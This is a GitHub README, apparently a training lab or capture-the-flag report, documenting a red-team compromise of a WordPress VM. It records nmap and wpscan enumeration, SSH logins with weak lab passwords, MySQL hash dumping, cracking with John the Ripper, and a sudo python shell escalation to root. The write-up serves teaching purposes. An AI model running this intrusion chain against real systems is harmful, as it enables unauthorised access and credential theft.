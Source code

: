# Red Team: Summary of Operations

## Table of Contents

-  Exposed Services
-  Critical Vulnerabilities
-  Exploitation

### Network Scan To Identify All Available Networks:

-  nmap -sS -PO 192.168.1.*

<img src="https://github.com/Tamie13/Red-Team-Summary-of-Operations/blob/main/Attack%20Target%201%20Images/nmap%20-sS%20-PO%20192.168.1.*.png">


### Target Identified
   
   -  Name:  **Target 1**
   -  IP Address: 192.168.1.110

#### Target Machine Scan

-  Nmap scan results for each machine reveal the below services and OS details:
    -  nmap -sV 192.168.110

<img src="https://github.com/Tamie13/Red-Team-Summary-of-Operations/blob/main/Attack%20Target%201%20Images/nmap%20-sV%20192.168.1.110.png">

-  The scan above identifies the services below as potential points of entry:

    -  Port 22/TCP Open SSH
    -  Port 80/TCP Open HTTP
    -  Port 111/TCP Open rcpbind
    -  Port 139/TCP Open netbios-ssn
    -  Port 445/TCP Open netbios-ssn

## Critical Vulnerabilities

-  The following vulnerabilities were identified on the target Machine:
    -  1.  Wordpress user enumeration;
    -  2.  Weak user password
    -  3.  Able to obtain password for MySQL DB and start a session
    -  4.  Unsalted password hashes able to penetrate target machine and escalate user privilege to root

## Exploitatoin of Vulnerabilities

### Wordpress user enumeration: 
   - **Command Used** WordPress User Enumeration Scan:  wpscan --url http://192.168.1.110/wordpress --enumerate u

  -  **Vulnerability** CVE-2017-5487:  Scan enumerates user names and other possibly vulnerable paths and files.

  -  **Rating** Base Score: 5.3 Medium

As can be seen below the scan was successful in enumerating valid usernames of **Steven & Michael**

(Click On Image/s To Open In Expanded View)

<img src="https://github.com/Tamie13/Red-Team-Summary-of-Operations/blob/main/Attack%20Target%201%20Images/wpscan%20enumeration%201.png" width="400" height="400"> <img src="https://github.com/Tamie13/Red-Team-Summary-of-Operations/blob/main/Attack%20Target%201%20Images/wpscan%20enumeration_2.png" width="400" height="400">

### Weak user password:
  -  Weak user passwords made it possible  ssh into user shell with **Username - Michael** (Image Below).
     -  ssh michael@192.168.1.110
        -  PW = michael
  -  After login as Michael was able to traverse through directories and files where and found **Flag One & Flag Two** (Image/s Below):
     - Flag1 = b9bbcb33ellb80be759c4e844862482d  
       -  /var/www/html/service.html
       -  nano service.html
     - Flag2 = fc3fd58dcdad9ab23faca6e9a3e581c
       -  /var/www/
       -  ls
       -  cat flag2.txt
  -  Able to find password to MySQL DB in the following direcotry and file (Image Below):
     -  /var/www/html/wp-config.php
     -  nano wp-config.php
     -  MySQL DB PW: R@v3nSecurity

<img src="https://github.com/Tamie13/Red-Team-Summary-of-Operations/blob/main/Attack%20Target%201%20Images/flag-1.png">

<img src="https://github.com/Tamie13/Red-Team-Summary-of-Operations/blob/main/Attack%20Target%201%20Images/MySQL_PW.png"> 

<img src="https://github.com/Tamie13/Red-Team-Summary-of-Operations/blob/main/Attack%20Target%201%20Images/flag%202.png">
     
     
### Login To MySQL Database
  -  **Command/s Used** (See Images Below)
     -  mysql --user=root --password=R@v3nSecurity
     -  show database;
     -  use wordpress;
     -  show tables;
     -  select * from wp_users;
     -  select * from wp_posts;
        - **Flag3 Found** = afc01ab56b50591e7dccf93122770cd2
  -  Using the commands above was able to find and dump password hash for **Steven**
     -  created file on Kali Attack Machine for password hashes
        -  Command used: touch wp_hashes.txt
        -  nano wp_hashes.txt and added hashes
     -  using john the ripper obtained **Steven** password
        -  Command: john wp_hashes.txt
        -  PW = *pink84*

<img src="https://github.com/Tamie13/Red-Team-Summary-of-Operations/blob/main/Attack%20Target%201%20Images/mysql%20show%20database.png"> 

<img src="https://github.com/Tamie13/Red-Team-Summary-of-Operations/blob/main/Attack%20Target%201%20Images/use%20wordpress.png"> 

<img src="https://github.com/Tamie13/Red-Team-Summary-of-Operations/blob/main/Attack%20Target%201%20Images/flag%203.png">

<img src="https://github.com/Tamie13/Red-Team-Summary-of-Operations/blob/main/Attack%20Target%201%20Images/select%20*%20from%20wp_users.png">


### Able to establish user shell on target machine
  -  Logged in using **Steven** credentials
     -  ssh steven@192.168.1.110
     -  pw *pink84*
     -  escalated to root using: sudo -l
  -  Using python was able to penetrate target machine
     -  sudo python -c 'import pty;pty.spawn("/bin/bash")'
  -  Traversed the direcotry and found Flag 4
     -  **Flag4** 715dea6c055b9fe3337544932f2941ce
     -  cat flag4.txt

<img src="https://github.com/Tamie13/Red-Team-Summary-of-Operations/blob/main/Attack%20Target%201%20Images/Escate%20to%20root%20using%20python.png">



